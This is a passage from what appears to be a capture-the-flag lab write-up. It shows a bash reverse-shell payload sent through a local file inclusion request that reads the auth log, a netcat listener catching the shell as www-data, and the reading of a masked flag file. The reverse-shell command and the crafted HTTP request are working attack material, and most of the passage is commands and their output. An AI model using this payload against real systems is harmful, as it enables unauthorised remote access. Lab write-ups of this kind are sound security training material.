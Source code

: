 ### trigger reverse shell
payload: `bash -c 'bash -i >& /dev/tcp/192.168.49.103/80 0>&1'`
```http
GET /console/file.php?file=%2fvar%2flog%2fauth%2elog&c=bash+-c+'bash+-i+>%26+/dev/tcp/192.168.49.103/80+0>%261' HTTP/1.1
Host: 192.168.103.80
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.72 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

### catch connect from target
```bash
$ nc -lvp 80 
listening on [any] 80 ...
192.168.103.80: inverse host lookup failed: Unknown host
connect to [192.168.49.103] from (UNKNOWN) [192.168.103.80] 37404
bash: cannot set terminal process group (562): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/html/console$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@ubuntu:/var/www/html/console$
```

> Reverse shell!
{: .prompt-info }

## get first flag
```bash
www-data@ubuntu:/var/www/html/console$ ls
ls
file.php
www-data@ubuntu:/var/www/html/console$ cd ..
cd ..
www-data@ubuntu:/var/www/html$ ls
ls
console
font.css
images
index.html
style.css
www-data@ubuntu:/var/www/html$ cd ..
cd ..
www-data@ubuntu:/var/www$ ls
ls
html
local.txt
www-data@ubuntu:/var/www$ cat local.txt
cat local.txt
c******************************b
```
